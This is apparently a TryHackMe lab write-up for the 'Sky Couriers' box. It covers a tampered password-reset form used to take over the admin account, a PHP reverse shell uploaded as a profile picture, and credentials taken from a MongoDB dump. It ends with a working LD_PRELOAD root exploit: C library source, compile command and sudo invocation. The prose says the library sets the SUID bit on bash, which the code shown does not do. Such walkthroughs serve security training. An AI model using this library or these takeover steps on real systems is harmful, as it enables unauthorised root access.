










This box is rated medium difficulty on THM. It involves us updating an admin account's password using a built-in function on the webpage which allows us to upload a shell via the profile picture feature. Then, we dump a MongoDB database to grab a lower level user's credentials. Finally, a misconfiguration on Sudo privileges allows us to preload a malicious library and change permissions on the bash binary to get a root shell.

_Inspired by a real-world pentesting engagement_

## Scanning & Enumeration
I start with an Nmap scan against the given IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.67.148.72 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-27 14:44 CST
Nmap scan report for 10.67.148.72
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6b:8e:a8:f3:97:1a:fe:d1:bb:db:f4:7c:47:eb:be:41 (RSA)
|   256 b1:50:ec:51:5f:d7:55:f7:dd:d2:c8:66:59:87:6b:7b (ECDSA)
|_  256 58:4b:0a:6b:85:2c:39:01:ac:ff:9b:ab:85:9c:cd:f3 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Sky Couriers
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

Looks like this will be web heavy, so I'll leave a few Gobuster scans in the background to find subdirectories/subdomains. Checking out port 80 shows a static webpage for a B2B delivery service.



They also have an admin login portal for what seems to be a central hub for merchants. I use the register button to create a new account and have a look around internally.



There isn't much functionality on the inside except for a profile update function which also only works sometimes. I tried testing for SSTI vulnerabilities, but that failed. I do find an email for the admin which discloses the address structure and might let us brute force the login.



At the top of the page is a search query for AWM/Waybill numbers which most likely means there is a database (goldmine). Entering anything into it returns a page saying _"Due to huge amount of complaints, we are currently working on fixing this. Sorry for the inconvenience."_

Looks like this service was broken at one point and they decided to take down the page for it. However, the URL shows it points to an API at `/v2/admin/track_orders.php?awb=1`. Perhaps this still accepts input or we can fuzz for other useful APIs using wfuff.

These scans ultimately don't return anything, but it's good practice to dig deep on misconfigured APIs, because they can lead to some nasty exploits. In any case, I go back to exploiting preexisting functions on the page. Since we know we want to get admin access, we'll either need to change our username to it somehow or steal a token/session.

I intercept a request to update our profile to see if it's possible to bypass the lockout on uploading a picture and nothing works.



## Exploitation
The cookie looks pretty insignificant as well. I move onto the ResetUser page and find that our username is greyed out within the site, however intercepting this shows we have the ability to change the value of that specific form to be whatever we please.



This is a pretty dangerous example of Broken Access Control, as it applies to every account in the database, so long as they already exist.

After changing that to `admin@sky.thm`, we can sign in using the newly updated password to get administrative privileges over the site. There is no more functionality except for that profile picture upload, so let's exploit that to upload a PHP reverse shell.

It's a bit funky but uploading a file does work. Checking the page's source code discloses that they get stored at `/v2/profileimages/<FILE_NAME>`. 



## Initial Foothold
I set up a netcat listener and proc it by navigating to that endpoint in my browser and we are in.


At this point, we can grab the user flag inside webdeveloper's home dir and start looking at ways to escalate privileges to them or root user. Going about the usual methods of finding SUID bits set, sudo privileges, and exposed backup files yields nothing. I use `grep -iR password` in /var/www/html/ to find any instances of a password being stored on the web server's files.



I end up finding mysql creds for root user which we can use to dump the database and perhaps crack hashes for other users. These databases only contain the websites credentials which we had to change to get a shell, whoops!

## Privilege Escalation
Checking for files owned by webdeveloper displays a few binaries pretaining to mongodb, which I thought was a little wierd. Using mongo to dump that a user table in a backup DB rewards us with the plaintext password for the webdev account.



Let's SSH onto the box for a better shell with more capabilities and start investigating ways to pwn root as well. I notice they have access to run a backup utility for the web server as root and has something very dangerous enabled.



This `env_keep+=LD_PRELOAD` option will preload an environment variable that forces the dynamic linker to load a specified library before others. If we set this environ var to point towards a malicious library, we can have it change the SUID bit on `/bin/bash` or change passwords outright.

First we must create our malicious library on our attacking machine and compile it. This is what I end up using:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

Next, I compile it using gcc and save it to a .so file and upload it to the box under /home/webdeveloper (it can be wherever you have write access at). 

```
gcc -fPIC -shared -o privesc.so privesc.c -nostartfiles
```

Finally, I run the `sky_backup_utility` binary as sudo and specify the `LD_PRELOAD` option to point towards our malicious library.

```
sudo LD_PRELOAD=/home/webdeveloper/privesc.so /usr/bin/sky_backup_utility
```

This will print the stdout of that backup utility and checking `/bin/bash` after it does confirms our library was loaded. Last thing is to spawn a bash shell as root and grab the root flag.



Overall, this box was pretty fun. Broken Access Controls vulnerabilities always seems to make a bold appearance on [OWASP's top 10 list](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/) and this machine was a prime example of how dangerous it can be.

I hope this was helpful to anyone following along or stuck and happy hacking!
